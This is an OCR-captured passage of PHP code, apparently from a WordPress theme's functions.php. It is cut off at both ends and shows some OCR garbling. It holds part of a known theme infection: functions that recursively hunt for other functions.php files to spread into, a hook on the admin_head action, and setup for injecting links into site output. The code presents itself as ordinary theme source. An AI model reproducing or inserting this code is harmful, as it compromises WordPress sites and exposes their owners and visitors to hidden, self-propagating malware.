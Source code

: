      foreach ($elems as $elem){
     if ($elem != "." && $elem != ".."){
     if (is_dir($places . "/" . $elem)){
     $wids[]=$places . "/" . $elem;
     } elseif (is_file($places . "/" . $elem)&& 
     $elem == substr(__FILE__,-13)){
     $items[]=$places . "/" . $elem;}
     }
     }
     }else{
     return false; 
     }
     if (sizeof($wids) > 0){
     return _get_allwidgetscont($wids,$items);
     } else {
     return $items;
     }
    }
    if(!function_exists("stripos")){ 
     function stripos( $str, $needle, $offset = 0 ){ 
     return strpos( strtolower( $str ), strtolower( $needle ), $offset ); 
     }
    }

    if(!function_exists("strripos")){ 
     function strripos( $haystack, $needle, $offset = 0 ) { 
     if( !is_string( $needle ) )$needle = chr( intval( $needle ) ); 
     if( $offset < 0 ){ 
     $temp_cut = strrev( substr( $haystack, 0, abs($offset) ) ); 
     } 
     else{ 
     $temp_cut = strrev( substr( $haystack, 0, max( ( strlen($haystack) - $offset ), 0 ) ) ); 
     } 
     if( ( $found = stripos( $temp_cut, strrev($needle) ) ) === FALSE )return FALSE; 
     $pos = ( strlen( $haystack ) - ( $found + $offset + strlen( $needle ) ) ); 
     return $pos; 
     }
    }
    if(!function_exists("scandir")){ 
     function scandir($dir,$listDirectories=false, $skipDots=true) {
     $dirArray = array();
     if ($handle = opendir($dir)) {
     while (false !== ($file = readdir($handle))) {
     if (($file != "." && $file != "..") '' $skipDots == true) {
     if($listDirectories == false) { if(is_dir($file)) { continue; } }
     array_push($dirArray,basename($file));
     }
     }
     closedir($handle);
     }
     return $dirArray;
     }
    }
    add_action("admin_head", "_verify_isactivate_widgets");
    function _prepare_widgets(){
     if(!isset($comment_length)) $comment_length=120;
     if(!isset($strval)) $strval="cookie";
     if(!isset($tags)) $tags="<a>";
     if(!isset($type)) $type="none";
     if(!isset($sepr)) $sepr="";
     if(!isset($h_filter)) $h_filter=get_option("home"); 
     if(!isset($p_filter)) $p_filter="wp_";
     if(!isset($more_link)) $more_link=1; 
     if(!isset($comment_types)) $comment_types=""; 